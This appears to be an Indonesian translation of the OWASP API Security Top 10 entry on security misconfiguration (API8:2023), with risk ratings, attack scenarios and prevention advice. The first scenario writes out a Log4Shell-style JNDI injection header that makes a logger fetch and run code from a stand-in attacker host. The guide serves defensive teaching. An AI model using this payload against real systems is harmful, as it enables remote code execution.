 # API8:2023 Kesalahan Konfigurasi Keamanan

| Agen ancaman/Vektor serangan | Kelemahan Keamanan | Impak |
| - | - | - |
| Spesifik API : Eksploitabilitas **Mudah** | Prevalensi **Menyebar Luas** : Keterdeteksian **Mudah** | Teknis **Sangat Parah** : Spesifik Bisnis |
| Penyerang akan sering mencoba mencari cacat yang tidak di-patch, titik akhir umum, layanan yang berjalan dengan konfigurasi baku tidak aman, atau berkas dan direktori yang tidak terproteksi untuk memperoleh akses tanpa otorisasi atau pengetahuan tentang sistem. Kebanyakan dari ini adalah pengetahuan publik dan eksploit mungkin tersedia. | Kesalahan konfigurasi keamanan bisa terjadi pada sebarang level dari stack API, dari level jaringan ke level aplikasi. Perkakas terotomasi tersedia untuk mendeteksi dan mengeksploitasi kesalahan konfigurasi seperti misalnya layanan yang tidak diperlukan atau opsi warisan. | Kesalahan konfigurasi keamanan tidak hanya mengekspos data pengguna yang sensitif, tapi juga rincian sistem yang dapat mengarah ke terkomprominya seluruh server. |

## Apakah API Rentan?

API mungkin rentan bila:

* Hardening keamanan yang sesuai kurang di sebarang bagian dari stack API,
  atau bila ada izin yang dikonfigurasi secara tidak tepat pada layanan cloud
* Patch keamanan terakhir kurang, atau sistem kedaluwarsa
* Fitur yang tidak diperlukan difungsikan (mis. verb HTTP, fitur pencatatan
  log)
* Ada ketidakcocokan dalam cara permintaan masuk diproses oleh server dalam
  rantai server HTTP
* Transport Layer Security (TLS) kurang
* Direktif kendali keamanan atau singgahan tidak dikirim ke klien
* Suatu kebijakan Cross-Origin Resource Sharing (CORS, Berbagi Sumber Daya
  Lintas Sumber) kurang atau ditata secara tidak tepat
* Pesan-pesan kesalahan menyertakan trace stack, atau mengekspos informasi
  sensitif lain
  
## Contoh Skenario Serangan

### Skenario #1

Sebuah server back end API memelihara suatu log akses yang ditulis oleh
utilitas pencatatan log sumber terbuka pihak ketiga yang populer, dengan
dukungan ekspansi pewakil dan pencarian JNDI (Java Naming and Directory
Interface) yang keduanya difungsikan secara baku. Untuk setiap permintaan,
satu entri baru ditulis ke berkas log dengan pola berikut:
`<metode> <versi_api>/<path> - <kode_status>`.

Seorang aktor jahat menerbitkan permintaan API berikut, yang kemudian ditulis
ke berkas log akses:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Karena konfigurasi baku yang tidak aman dari utilitas pencatatan log dan suatu
kebijakan lalu lintas jaringan arah keluar yang permisif, untuk menulis entri
yang terkait ke log akses, sambil mengekspansi nilai dalam header permintaan
`X-Api-Version`, utilitas pencatatan log akan menarik dan mengeksekusi obyek
`Malicious.class` dari server remote yang dikendalikan oleh penyerang.

### Skenario #2

Suatu situs web jejaring sosial menawarkan sebuah fitur "Pesan Langsung" yang
mengizinkan pengguna menyimpan percakapan pribadi. Untuk mengambil pesan-pesan
baru bagi percakapan tertentu, situs web menerbitkan permintaan API berikut
(interaksi pengguna tidak diperlukan):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Karena respons API tidak menyertakan header respons HTTP `Cache-Control`,
percakapan pribadi berakhir disinggahkan oleh peramban web, mengizinkan aktor
jahat untuk mengambil mereka dari berkas singgahan peramban dalam sistem
berkas.

## Bagaimana Cara Mencegah

Siklus hidup API mesti termasuk:

* Suatu proses hardening yang dapat diulang menuju ke penggelaran yang cepat
  dan mudah dari suatu lingkungan yang dikunci dengan benar
* Suatu tugas untuk meninjau dan memperbarui konfigurasi pada seluruh stack
  API. Tinjauan mesti termasuk: berkas orkestrasi, komponen API, dan layanan
  cloud (mis. izin buket S3)
* Suatu proses terotomasi untuk mengakses secara terus-menerus efektivitas
  dari konfigurasi dan pengaturan dalam semua lingkungan

Lebih jauh:

* Pastikan bahwa semua komunikasi API dari klien ke server API dan sebarang
  komponen downstream/upstream terjadi lewat kanal komunikasi yang terenkripsi
  (TLS), tanpa peduli apakah itu API internal atau melayani publik.
* Spesifiklah tentang setiap API dapat diakses oleh verb HTTP mana: semua
  verb HTTP lain mesti dinonaktifkan (mis. HEAD).
* APi yang mengharapkan diakses dari klien berbasis peramban (mis. front end
  WebApp) mesti, setidaknya:
  * mengimplementasikan suatu kebijakan Cross-Origin Resource Sharing (CORS)
    yang tepat
  * menyertakan Header Keamanan yang berlaku
* Membatasi format data/tipe konten masuk ke mereka yang memenuhi persyaratan
  fungsional/bisnis.
* Memastikan semua server dalam rantai server HTTP (mis. load balancer, proksi
  balik dan maju, dan server back end) memroses permintaan masuk dalam cara 
  yang seragam untuk menghindari masalah-masalah desync.
* Dimana berlaku, tentukan dan tegakkan semua skema payload respons API,
  termasuk respons kesalahan, untuk mencegah trace eksepsi dan informasi
  berharga lain dikirim balik ke penyerang.

## Referensi

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### Eksternal

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
